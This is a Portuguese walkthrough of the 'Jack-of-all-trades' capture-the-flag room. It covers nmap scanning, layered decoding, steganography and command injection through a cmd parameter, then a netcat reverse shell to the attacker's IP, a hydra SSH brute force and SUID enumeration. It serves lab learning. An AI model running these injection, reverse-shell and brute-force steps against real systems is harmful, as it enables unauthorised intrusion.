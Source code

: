 # _**Jack-of-all-trades**_
![](jack.jpg)

## _**Enumeração**_
Vamos começar com um scan nmap
> ```bash
> nmap -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Tentando acessar o site manualmente em http://[ip_address]:22, mas não funciona  
Vamos tentar buscar a página através do comando ```curl```
> ```bash
> curl [ip_address]:22
> ```
![](curl_return.jpg)

## _**Ganhando acesso**_
Temos um texto em <mark>base64</mark> exposto na página
Traduzindo com o comando abaixo, temos outra mensagem, uma senha
* password: <mark>u?WtKSraq</mark>
> ```bash
> echo ‘[frase_encontrada]’ | base64 -d
> ```
![](echo.jpg)

Não podemos ignorar o nome também encontrado, <mark>Jonhy</mark>, pode ser útil  
Este nome está relacionado com _crypto jobhunting! His encoding systems are amazing_  
Outras informações encontradas no comando ```curl``` são:
* <mark>/recovery.php</mark>
* <mark>/assets/jackinthebox.jpg</mark>

Vamos buscar novamente com o comando ```curl```
> ```bash
> curl http://[ip_address]:22/recovery.php
> ```
![](curl_return2.jpg)

Parece que temos novamente outra mensagem  
E parece ser uma página de login  
Vamos tentar descobrir o que essa mensagem gigante é  
Parece ser base 32  
Vamos decodificar com o comando ```base32```
> ```bash
> echo '[string]' | base32 -d
> ```
![](curl_32.jpg)

Um monte de números e letras  
Para (novamente) descobrirmos do que se trata, vamos ao gpt  
Ele nos diz que a string de números e letras é <mark>hexadecimal</mark> e traduz para nós  
Novamente codificado, desta vez ROT13  
Ele realiza a tradução e temos uma frase e também temos um link  

![](gpt_return.jpg)

Um link que leva a nada  
Mas sabemos que podemos tentar login com o usuário <mark>jack</mark> (possível usuário) e a senha descoberta anteriormente através do comando ```curl```
> ```bash
> curl -X POST http://[ip_address]/recovery.php \ -d "user=jack&pass=u?WtKSraq"
> ```

Não tivemos nenhum retorno útil  
A busca continua  
Outra ideia é realizar o download das imagens encontradas na página e tentar algo com a ferramenta <mark>steghide</mark>  
Baixamos <mark>jack.jpg</mark>, <mark>stego.jpg</mark> e <mark>header.jpg</mark> com o comando ```curl```  
> ```bash
> curl http://[ip_address]:22/jackinthebox.jpg
> ```
> ```bash
> curl http://[ip_address]:22/stego.jpg
> ```
> ```bash
> curl http://[ip_address]:22/header.jpg
> ```

Temos o seguinte resultado:  

![](multiple_curls.jpg)  

Sem informações a mais, fui buscar ajuda  
O link <mark>bit.ly</mark> levava a uma página sobre a _**Stegosauria**_, dica que de havia algo nas imagens  
Fui novamente com a ferramenta <mark>steghide</mark>, porém na imagem _header_ e com a senha <mark>u?WtKSraq</mark>, e deu certo!  
_**Acredito ter digitado algo errado da última vez**_  

![](stegs.jpg)  

Apesar de termos usuário e senha para _**recovery.php**_, um comando ```curl``` não retornará o que queremos  
Então, fui buscar como burlar o bloqueio da porta 22  
Cheguei ao resultado que, alterando _network.security.ports.banned.override_ para a porta 22, poderia acessar a página  
Dito e feito, temos a página e tentativa de login  

![](login_success.jpg)  

_GET_ é uma requisição _HTTP_  
_cmd_ é o prompt do _windows_  
Pode ser que o navegador aceite comandos, vamos testar!  

![](terminal_command.jpg)  

Deu certo!  
Vamos investigar navegando por diretórios  
Encontramos o seguinte arquivo: <mark>jacks_password_list</mark>  

![](passwd_jack.jpg)  

Por aceitar comandos, podemos criar uma shell através do netcat  
Primeiro, vamos escutar com o comando abaixo
> ```bash
> nc -lnvp 1234
> ```

Após, vamos inserir na url o seguinte trecho: ../index.php?cmd=nc -e /bin/bash [vpn_ip] 80 [port]  

![](poisoning.jpg)  

Com a conexão bem sucedida, vamos buscar _jacks_password_list_  
Copiando e colando em um arquivo _.txt_, vamos usar ele para realizar um ataque de força bruta contra a conexão ssh com o comando abaixo  
> ```bash
> hydra -l jack -P ../jacks_passwd.txt -s 80 [ip_address] ssh
> ```
![](brute_hydra.jpg)

Vamos realizar um login via ssh  

![](login_ssh.jpg)  

Login feito com sucesso!
Temos uma imagem  

![](jack_image.jpg)  

Vamos extrair ela para nosso computador com ```scp```
> ```bash
> scp -P 80 jack@[ip_address]:/home/jack/user.jpg user.jpg
> ```
![](image_extracted.jpg)

Abrindo a imagem, temos nossa primeira _flag_

## _**Escalando privilégios**_
Agora, para a segunda flag, com a dica, sabemos que ela está em _/root/root.txt_  
Vamos tentar escalar privilégios  
Através dos comandos abaixo, verificamos SUID e permissões de jack
> ```bash
> sudo -l
> ```
> ```bash
> find / -type f -user root -perm -u=s 2>/dev/null
> ```
> ```bash
> find / -perm /4000 2>/dev/null
> ```
O comando <mark>/usr/bin/strings</mark> é uma ferramenta usada para procurar e exibir strings legíveis em arquivos binários  
Ele filtra os dados no arquivo, mostrando apenas sequências de caracteres que podem ser interpretadas como texto, o que pode ser útil para descobrir informações como senhas, mensagens ou outros dados ocultos em arquivos binários ou de sistema  

![](root_flag.jpg)

